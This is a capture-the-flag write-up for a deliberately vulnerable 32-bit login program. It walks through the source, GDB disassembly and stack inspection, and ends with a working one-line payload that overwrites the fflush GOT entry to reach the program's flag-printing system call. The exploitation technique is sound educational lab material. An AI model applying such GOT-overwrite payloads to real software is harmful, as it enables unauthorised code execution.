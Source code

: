 Let's break some login systems :)


```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;
}
```

Welp, we have two functions `welcome` and `,login`, the first one is creating a char array of length 100, scans some text and prints it, the latter function supposedly gets two numbers and compares them to `338150` and `13371337` respectively and `cat`'s out our flag if comparision succeeds.

But if we try to run it we get a segfault.
```bash
$ ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : hey
Welcome hey!
enter passcode1 : 123
enter passcode2 : 123
Segmentation fault (core dumped)
```

If we look more closely on the `scanf`'s inside the `login` function we can see that instead of giving `scanf` the pointer of the integer we want to fill out, we actually give it the value itself, meaning that the program tries to access a memory address that is represented by the junk value in `passcode1` and `passcode2` since it's uninitialized.

What if we try to enter a 100 characters word as an input to the name?

```bash
$ ./passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : 1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
Welcome 1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111!
enter passcode1 : 338150
Segmentation fault (core dumped)
```

Welp, now we don't even get to input our second passcode.... let's debug the program with the same input, Let's put a breakpoint on the first `scanf`:
```bash
(gdb) disas login
Dump of assembler code for function login:
   0x08048564 <+0>:	push   %ebp
   0x08048565 <+1>:	mov    %esp,%ebp
   0x08048567 <+3>:	sub    $0x28,%esp
   0x0804856a <+6>:	mov    $0x8048770,%eax
   0x0804856f <+11>:	mov    %eax,(%esp)
   0x08048572 <+14>:	call   0x8048420 <printf@plt>
   0x08048577 <+19>:	mov    $0x8048783,%eax
   0x0804857c <+24>:	mov    -0x10(%ebp),%edx
   0x0804857f <+27>:	mov    %edx,0x4(%esp)
   0x08048583 <+31>:	mov    %eax,(%esp)
   0x08048586 <+34>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x0804858b <+39>:	mov    0x804a02c,%eax
   0x08048590 <+44>:	mov    %eax,(%esp)
   0x08048593 <+47>:	call   0x8048430 <fflush@plt>
   0x08048598 <+52>:	mov    $0x8048786,%eax
   0x0804859d <+57>:	mov    %eax,(%esp)
   0x080485a0 <+60>:	call   0x8048420 <printf@plt>
   0x080485a5 <+65>:	mov    $0x8048783,%eax
   0x080485aa <+70>:	mov    -0xc(%ebp),%edx
   0x080485ad <+73>:	mov    %edx,0x4(%esp)
   0x080485b1 <+77>:	mov    %eax,(%esp)
   0x080485b4 <+80>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x080485b9 <+85>:	movl   $0x8048799,(%esp)
   0x080485c0 <+92>:	call   0x8048450 <puts@plt>
   0x080485c5 <+97>:	cmpl   $0x528e6,-0x10(%ebp)
   0x080485cc <+104>:	jne    0x80485f1 <login+141>
   0x080485ce <+106>:	cmpl   $0xcc07c9,-0xc(%ebp)
   0x080485d5 <+113>:	jne    0x80485f1 <login+141>
   0x080485d7 <+115>:	movl   $0x80487a5,(%esp)
   0x080485de <+122>:	call   0x8048450 <puts@plt>
   0x080485e3 <+127>:	movl   $0x80487af,(%esp)
   0x080485ea <+134>:	call   0x8048460 <system@plt>
   0x080485ef <+139>:	leave  
   0x080485f0 <+140>:	ret    
   0x080485f1 <+141>:	movl   $0x80487bd,(%esp)
   0x080485f8 <+148>:	call   0x8048450 <puts@plt>
   0x080485fd <+153>:	movl   $0x0,(%esp)
   0x08048604 <+160>:	call   0x8048480 <exit@plt>
End of assembler dump.
(gdb) b *0x08048586
Breakpoint 1 at 0x8048586
(gdb) r
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Toddler's Secure Login System 1.0 beta.
enter you name : 1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
Welcome 1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111!

Breakpoint 1, 0x08048586 in login ()
(gdb) ni
enter passcode1 : 123

Program received signal SIGSEGV, Segmentation fault.
0xf7c5df50 in ?? () from /lib/i386-linux-gnu/libc.so.6
```
We don't even go past the first scanf, I wonder if our 100 characters input changed something.
Let's try to inspect passcode1 and passcode2 before the first `scanf` call, an easy guess for passcode1 would be `0x0804857c <+24>:	mov    -0x10(%ebp),%edx`, looks like a typical variable preparation for `scanf`:
```bash
(gdb) x/20 $ebp-0x10
0xff884d98:	0x31	0x31	0x31	0x31	0x00	0x73	0x2b	0xc1
0xff884da0:	0x84	0x4e	0x88	0xff	0x80	0x6b	0xff	0xf7
0xff884da8:	0xc8	0x4d	0x88	0xff
```

Welp, we can see that `passcode1` is equal to 4 bytes of `0x31`, which is actually `'1'` in hexadecimal representation, looks like the data from the previous frame stack was kept, If we think about it, the frame stack of welcome looked like this:
```

+--------HIGHER ADDR--------+  

+---------------------------+  
|       ret address         |  
+---------------------------+  
+---------------------------+  
|           bp              |  
+---------------------------+  
+---------------------------+  
|       name[99]             |  
+---------------------------+  
+---------------------------+  
|       name[98]             |  
+---------------------------+  
        ...  
        ...  
        ...  
+---------------------------+  
|       name[0]            |  
+---------------------------+  
  
+--------LOWER ADDR---------+  
```

Meaning that the last 4 bytes of `name` will actually be seen as the value of `passcode1` (int, 4 bytes, e.g `%ebp-0x10`).

So now we figured out we can control the value of `passcode1` before the `scanf`, If we think logically, the `scanf` function will put the input value in a memory we decide on based on the last 4 bytes in `char name[100]`.

This is also what causes the segfault (probably), when i entered 100 ones, since the memory address `0x31313131` is not accessable by the program.

Let's see if we can abuse `fflush` given our new discovery, this function is an imported function, meaning that on launch it runs a couple of instructions to load the actual instruction set of `fflush`, if we try to disassemble pre-run we will see this:
```bash
(gdb) disas fflush
Dump of assembler code for function fflush@plt:
   0x08048430 <+0>:	jmp    *0x804a004
   0x08048436 <+6>:	push   $0x8
   0x0804843b <+11>:	jmp    0x8048410
End of assembler dump.
```

Voila! we have a jump function, we can override the value in that address block to our likings, maybe we can just write the instruction address of our `system("/bin/cat flag")` call?

So let's get it clear, we want to make the last 4 bytes of `char name[100]` equal to `0x804a004` and then write to it `0x080485ea`, so we will jump to the `system` call right away. (we also should write the second address as an integer since that's just how it is represented in memory, e.g what `0x804a004` points to).

So our final solution should be like this:
```bash
passcode@pwnable:~$ python2 -c "print '1'*96 + '\x04\xa0\x04\x08' + str(int('0x080485ea', 16))" | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome 111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111!
sh: 1: Syntax error: word unexpected (expecting ")")
enter passcode1 : Now I can safely trust you that you have credential :)
```

Hmmm, it even printed the last `printf` in `main` but we didn't get our flag, we also got an `sh` error, this is because we did a small mistake, and we told the program to jump straight to the `system` call and not to the line beforehand that loads the argument for the call, which is actually our command `/bin/cat flag`, so if we change the jump address to `0x080485e3` it should fix the problem:
```bash
passcode@pwnable:~$ python2 -c "print '1'*96 + '\x04\xa0\x04\x08' + str(int('0x080485e3', 16))" | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome 111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111!
Sorry mom.. ***********************
enter passcode1 : Now I can safely trust you that you have credential :)
```


